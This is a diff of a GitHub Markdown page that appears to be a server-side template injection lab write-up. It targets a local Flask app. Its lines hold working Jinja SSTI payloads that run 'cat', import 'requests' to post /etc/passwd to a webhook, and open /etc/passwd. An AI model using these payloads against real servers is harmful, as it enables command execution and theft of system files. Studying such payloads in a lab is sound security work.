

Before and after one commit to poorvi1910/Web, a Markdown page: challenges/SSTI_payload_creation_chall.md, the part around the change. GitHub-like rendering; grey boxes are pictures that could not be loaded.

````diff
--- a/challenges/SSTI_payload_creation_chall.md
+++ b/challenges/SSTI_payload_creation_chall.md
@@ -97,7 +97,8 @@ http://127.0.0.1:5000/?c={{().__class__.__mro__[1].__subclasses__()[568](%27cat%
 ![image](https://github.com/poorvi1910/Web/assets/146640913/a516db8b-213f-4e58-8650-585cac3a95de)
 
 - ##  Send the contents of etc pass to  awebhook
-http://127.0.0.1:5000/?c={{ config.__class__.from_envvar["__globals__"]["__builtins__"]["__import__"]('requests')['post']['__call__']
+
+Sending post request: ```http://127.0.0.1:5000/?c={{ config.__class__.from_envvar["__globals__"]["__builtins__"]["__import__"]('requests')['post']['__call__']```
 
 To read file : ```request.__class__.__init__.__globals__.__builtins__.open.__call__("/etc/passwd").read()```
 
````
